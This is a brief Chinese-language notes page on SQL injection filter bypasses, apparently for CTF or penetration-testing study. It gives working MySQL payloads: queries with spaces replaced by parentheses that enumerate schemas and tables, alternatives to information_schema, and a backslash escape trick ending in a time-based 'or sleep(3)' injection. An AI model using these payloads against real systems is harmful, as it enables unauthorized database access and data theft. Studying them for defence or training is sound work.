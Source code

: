 ## **编码绕过**
is_numeric($_GET[‘id’]) ，过滤只允许数字，16进制编码sql注入。

^
## **空格被过滤**
空格过滤可以利用/**/代替空格。
利用括号，括号住变量。
```
所有库
select(group_concat(schema_name))from(information_schema.schemata)
库所有表
select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())
```

^
## **注释符被过滤**
将后面的单引号闭合即可。

^
## **or 被过滤，orderby、information_schema都不能用**
用其他逻辑运算符and ， && ， &， |  ,1^1^
查表名使用 select group_concat(table_name）from mysql.innodb_table_stats wheredatabase_name=database()

如果information_schema被禁止，通过sys.schema获取当前数据库表名
通过无列名注入获取表group_concat(某一字段所有值)。
<https://www.cnblogs.com/hello-there/p/12918265.html>

^
## **函数等效替换**
报错函数被过滤，寻找顶替。



^
## **存在转义函数**
```
addslashes($id);
将字符串里面的' " \等转义。
'将变成\'


如果此时下面存在，特殊字符去除 \0 %00 \' '
$id=str_replace(array("\\0","%00","\\'","'"),"",$id);

那么传入\0 先变成\\0 再变成\
如果是sql语句\就会转义后面全部为字符串，如果没有字符串闭合就会报错，或直到遇到下一个闭合符。
select * from images where id='{$id}' or path='{$path}'

select * from images where id='\' or path='   {$path}'
这里\' or path = ' 成了一个单独字符串
$path就可以随意注入
or sleep(3)--+
```
